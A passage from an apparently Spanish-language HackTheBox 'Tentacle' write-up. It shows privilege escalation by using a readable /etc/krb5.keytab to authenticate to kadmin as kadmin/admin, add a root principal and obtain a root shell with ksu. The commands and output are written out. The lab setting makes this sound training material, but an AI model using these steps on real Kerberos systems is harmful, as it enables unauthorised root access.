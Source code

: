 Bien, tenemos una "Shell" dentro de `kadmin` para configurar lo que necesitemos yy estamos "autenticados" como principal (quizás ya podemos relacionar el <<target principal name>>) `host/srv01.realcorp.htb@REALCORP.HTB`.

Intentemos ahora si agregar el nuevo <<target principal name>> según lo que encontramos (como queremos que nuestro principal sea `root`, asi mismo lo indicaremos):

```bash
kadmin:  addprinc root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
add_principal: Operation requires ``add'' privilege while creating "root@REALCORP.HTB".
kadmin:  
```

Pero no nos deja, no tenemos permisos, intentemos con otro <<principal>>, siguiendo la lista del `.keytab` seria `kadmin/admin@REALCORP.HTB`.

Para indicárselo al `kadmin` le agregamos el parámetro `-p`:

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  addprinc root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  
```

Vale, con este <<principal>> logramos la creación del nuevo <<principal>> con su respectiva contraseña (cualquiera).

Ahora probemos con el comando `ksu`, coloquemos la contraseña que le hallamos puesto y veamos que nos muestra:

![310bash_kadmin_shell_as_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_kadmin_shell_as_root.png)

PERFECTOOOOO!! Somos `root` en la máquina, todo mediante el archivo `.keytab` el cual nos permitió cambiar el "target principal name" para obtener una Shell como él (: Que locura :o
